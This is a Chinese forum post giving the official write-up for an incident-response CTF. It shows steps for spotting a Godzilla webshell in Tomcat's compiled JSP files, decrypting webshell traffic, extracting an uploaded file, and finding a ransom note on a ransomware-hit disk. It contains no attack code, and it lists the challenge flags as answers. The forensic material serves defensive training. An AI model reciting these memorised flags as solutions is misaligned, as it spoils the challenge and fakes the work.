# [CTF] 【官方WP】第一届solar杯·应急响应挑战赛官方题解

- 原帖：https://www.52pojie.cn/forum.php?mod=viewthread&tid=1998153
- 抓取时间：2026-11-01T22:17:06

就在几天前，第一届Solar杯·应急响应挑战赛圆满落下帷幕。这场比赛汇聚了来自全国的网络安全精英，选手们在激烈的技术较量中展现了非凡的能力和智慧。为延续比赛的技术交流与分享精神，我们很高兴向大家呈现本次比赛的官方WP（Writeup）。本篇官方WP将深入解析比赛中的关键赛题，从流量分析到勒索病毒破解，逐步还原真实案例中的技术细节与解决思路。需要特别说明的是，文中所呈现的这些方法和思路，均基于真实应急响应场景设计，虽然可能并非所有情况下的最优解，但我们希望它们能够为您提供有价值的参考，助力您在未来的应急响应中更加高效地应对复杂多变的安全挑战。让我们一同走进这场技术盛宴，探索网络安全应急响应的更多可能！

## 1. 流量分析

### 1.1 文件排查

新手运维小王的Geoserver遭到了攻击：

黑客疑似删除了webshell后门，小王找到了可能是攻击痕迹的文件但不一定是正确的，请帮他排查一下。

从日志分析得知攻击者ip为10.0.100.22对该站点有目录扫描行为与`b.jsp`交互频繁疑似为上传webshell

  
1.1.1.PNG（563.68 KB，下载次数: 1）  
[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ4MHxkNzBlMDkzZnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)  
2025-1-8 14:53 上传

当访问 JSP 页面时，Tomcat 会根据 JSP 页面动态生成一个 Java 类（`.java`），然后将其编译为 `.class` 文件。生成的 `.class` 文件是 Tomcat 用来处理请求并返回响应的实际代码。这个过程是动态的，Tomcat 会在后台管理这些文件的编译和更新。路径一般为：`/work/Catalina///org/apache/jsp/`

查看`b_jsp.java`判断为哥斯拉webshell

  
1.1.2.PNG（314.25 KB，下载次数: 2）  
[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ4MXw0OWU4Zjk1MnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)  
2025-1-8 14:54 上传

`base64`解码`code`

  
1.1.3.PNG（23.79 KB，下载次数: 2）  
[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ4MnwzNTJhZGQ5N3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)  
2025-1-8 14:54 上传

```
f!l^a*g{A7b4_X9zK_2v8N_wL5q4}
```

### 1.2 流量解密

新手运维小王的Geoserver遭到了攻击：

小王拿到了当时被入侵时的流量，其中一个IP有访问webshell的流量，已提取部分放在了两个`pcapng`中了。请帮他解密该流量。

  
1.2.1.PNG（246.35 KB，下载次数: 1）  
[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ4M3xmMmM1ZGY1NXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)  
2025-1-8 14:54 上传

  
1.2.2.png（204.51 KB，下载次数: 2）  
[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ4NHw5Y2JiNjBlOHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)  
2025-1-8 14:54 上传

  
1.2.3.png（221.72 KB，下载次数: 2）  
[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ4NXxjYThjY2U3ZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)  
2025-1-8 14:54 上传

```
flag{sA4hP_89dFh_x09tY_lL4SI4}
```

### 1.3 文件提取

新手运维小王的Geoserver遭到了攻击：

小王拿到了当时被入侵时的流量，黑客疑似通过webshell上传了文件，请看看里面是什么。

使用流量解密工具进行解密流量并删除无用部分后另存为`pdf`

  
1.3.1.png（834.03 KB，下载次数: 2）  
[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ4Nnw3MTczMmU3M3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)  
2025-1-8 14:54 上传

  
1.3.2.png（336.39 KB，下载次数: 0）  
[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ4N3wwMzM4OWExYXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)  
2025-1-8 14:54 上传

  
1.3.3.png（86.11 KB，下载次数: 1）  
[附件下载](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ4OHxkY2QzMWVkY3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)  
2025-1-8 14:54 上传


```
flag{dD7g_jk90_jnVm_aPkcs}
```

## 2.数据库

说明：由于黑客在攻击时可能会修改用户口令、锁定登陆、破坏系统导致无法进入操作系统，因此本题不提供密码

VMware虚拟机进入pe系统： pe镜像下载地址

[//www.hotpe.top/download/" target="_blank" rel="noopener noreferrer nofollow"](https://www.hotpe.top/download/:rel="nofollow noopener" href="https)



2.0.1.png (356.78 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODQ4OXw5Mzc0ZTU1YnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ4OXw5Mzc0ZTU1YnwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:54 上传

在虚拟机编辑设置CD/DVD处选择pe镜像



2.0.2.png (32.45 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODQ5MHw4MWE5OTU5N3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ5MHw4MWE5OTU5N3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:54 上传

选择电源-->打开电源时进入固件



2.0.3.png (31.46 KB, 下载次数: 2)

[href="forum.php?mod=attachment&aid=Mjc0ODQ5MXw4NTNhYTExZHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ5MXw4NTNhYTExZHwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:54 上传

在boot选项中调整启动顺位



2.0.4.png (19.52 KB, 下载次数: 3)

[href="forum.php?mod=attachment&aid=Mjc0ODQ5MnxmOGE3NjhmZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ5MnxmOGE3NjhmZXwxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:54 上传



2.0.5.png (905.7 KB, 下载次数: 1)

[href="forum.php?mod=attachment&aid=Mjc0ODQ5M3w3NTQ1ZDBhY3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes" target="_blank"](https://www.52pojie.cn/forum.php?mod=attachment&aid=Mjc0ODQ5M3w3NTQ1ZDBhY3wxNzkzNTcxNDIzfDE2ODA4NnwxOTk4MTUz&nothumb=yes)

2025-1-8 14:54 上传

可以在源系统盘看到勒索信`X3rmENR07.README.txt`，被加密的文件后缀为`.X3rmENR07`

